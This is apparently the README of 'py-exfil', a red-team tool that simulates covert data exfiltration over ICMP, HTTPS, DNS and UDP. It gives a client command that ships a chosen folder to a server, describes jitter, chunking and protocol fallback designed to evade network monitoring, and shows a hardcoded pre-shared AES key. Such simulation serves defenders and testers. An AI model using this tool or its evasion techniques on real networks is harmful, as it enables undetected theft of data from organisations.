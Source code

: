 # Exfiltration

This project simulates an **adversary exfiltrating data** past network monitoring by dynamically switching **communication protocols**.

## Features

- **Multiple Camouflage Protocols:**
  - **ICMP Tunneling** -> Best for bypassing firewall rules on open networks.
  - **HTTPS Exfiltration** -> Best for blending into encrypted web traffic.
  - **DNS-Based Data Transfer** -> Best for stealth in locked-down environments.
  - **Custom UDP Communication** -> Best for fast, lightweight data transfer.
- **Automatic Protocol Switching** when a method is blocked.
- **Exponential Jitter-Based Delays** to simulate real-world network traffic.
- **Session-Based Transmission** to ensure data integrity.
- **AES Encryption** for security before exfiltration.

## Installation

Make sure that you have python3 installed.

```bash
git clone https://github.com/truncet/py-exfil.git
cd py-exfil
pip install -r requirements.txt 
```

## Usage

For server, make sure that you have generated keys for https,

```bash
cd server
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
python3 server.py
```

For client,

```bash
cd client
python client.py [-h] --target-ip TARGET_IP --folder FOLDER --target-domain TARGET_DOMAIN

--target-ip → Server IP address
--folder → Folder path to exfiltrate
--target-domain → Domain for DNS-based exfiltration
```

## Why These protocols were selected

1) UDP Tunneling: 

    - UDP does not require a handshake or persistent connection, allowing chunks to be transmitted efficiently with minimal overhead.
    - Each UDP chunk contains session ID, chunk ID, and total chunks, ensuring proper file reassembly on the receiving side.
    - Since UDP does not guarantee delivery, the retry mechanism resends missing chunks or falls back to another protocol when needed.
    - As UDP is frequently used for streaming, VoIP, and gaming, packet sizes are kept within typical payload limits to avoid detection.

2) HTTPS: 

    - Chunks are wrapped inside HTTPS POST requests, ensuring that the traffic appears similar to regular web browsing activity.
    - The entire file is encrypted (AES-CBC) before exfiltration, preventing the contents from being analyzed if intercepted.
    - In cases where a chunk cannot be transmitted via HTTPS, the system ensures alternative protocols are attempted after MAX_TRIES.
    - As payloads are sent inside encrypted HTTPS sessions, network inspection tools are unable to analyze their content without SSL interception.

3) DNS:
    - To remain within DNS label size limits, data is encoded and split into multiple subdomain queries.
    - The retry mechanism ensures retransmissions occur until MAX_TRIES is reached.   
    - Since DNS is commonly allowed in networks, this method provides a - covert channel that blends in with legitimate queries.

4) ICMP: 

    - Instead of sending large packets, data is divided into small ICMP payloads (ICMP_PAYLOAD_SIZE_HEX), reducing the likelihood of detection.
    - Since ICMP operates without establishing a connection, each chunk is transmitted independently, minimizing traffic anomalies.
    - If an ICMP chunk fails to reach the destination, the retry mechanism ensures alternative protocols are used after MAX_TRIES.
    - As ICMP payloads are rarely inspected, this method allows data to be transmitted discreetly, blending in with normal network activity.


## Working

When the client is run with a specified folder path, the folder is first **compressed** into an archive. This compressed file is then **encrypted using AES encryption**. Currently, a **pre-shared key** is used for AES encryption, but for added stealth, an **RSA-based key exchange** could be implemented in the future. To change the pre-shared key, the `AES_KEY = b"this_is_a_32byte_key_for_aes_123"` variable must be updated in both the **client** and the **decrypt_file.py** file on the server.

Once the compressed file is encrypted, it is **divided into smaller chunks** before transmission. This is done to avoid **raising suspicion due to large packet sizes**, which could be flagged by network monitoring tools. Additionally, **randomized delays (exponential jitter)** are introduced between chunk transmissions to **simulate natural network traffic behavior**, preventing detection by systems that analyze packet patterns. Each chunk is **Base64 encoded** and transmitted using different protocols, with **automatic fallback** in case of failures. The server listens for incoming data across **four different protocols, each on its respective port**.

If a chunk **fails to send**, it is **retried up to `MAX_TRIES` times** before switching to another protocol. This ensures **data is not lost**, while also preventing repeated failed attempts from drawing attention. **Retransmissions are handled efficiently**, as each chunk is uniquely identified using its **session ID and chunk ID**, preventing duplication.

Once a chunk arrives at the server, the reassembly process depends on **which protocol was used** to transmit it. The **session ID and chunk ID** are used to correctly reconstruct the file, ensuring that even if some chunks **arrive out of order or with delays**, they are properly placed. For **DNS and ICMP**, where **strict payload size limitations** exist, each chunk is further **divided into smaller parts** and tracked using `part_id`. 

- **ICMP:** Since `ping` is used for transmission and ICMP only supports **hexadecimal payloads**, the chunk is sent in **hex format** rather than Base64.  
- **DNS:** Data is sent within the **subdomain name**, respecting DNS limitations on **total domain length** and **characters per label**. The reassembly is managed using `part_id`.

In case of DNS, the response IP has to be configured based on the clients ip which can be done at the start of exfiltration.

All received chunks are **stored in `CHUNK_STORAGE`**, tracked by `session_id`, `chunk_id`, and `part_id`. The reconstruction process runs **every 60 seconds**, ensuring that **delayed or retransmitted chunks** are still correctly assembled under the same session ID. Since multiple exfiltration sessions can run in parallel, the server is designed to **handle multiple concurrent session IDs**, keeping them isolated to prevent data overlap or corruption.

To further enhance stealth, additional **data padding techniques** could be introduced to make packet sizes resemble common network traffic patterns. Currently, **AES encryption ensures** that the transmitted data **cannot be analyzed** if intercepted. However, future improvements could include **traffic shaping** to better disguise payloads as **legitimate HTTPS or DNS queries**. Additionally, **metadata encryption** for chunk headers (session ID, chunk ID) could be implemented to further reduce the risk of passive traffic analysis.

Once the **encrypted file is fully reconstructed** on the server, it can be **decrypted using `decrypt_file.py`**. The command for decryption is displayed after the bin file is reconstructed (every **30 seconds**). Once decrypted, the file can be **uncompressed using `tar`**, which is also indicated in the decryption command.

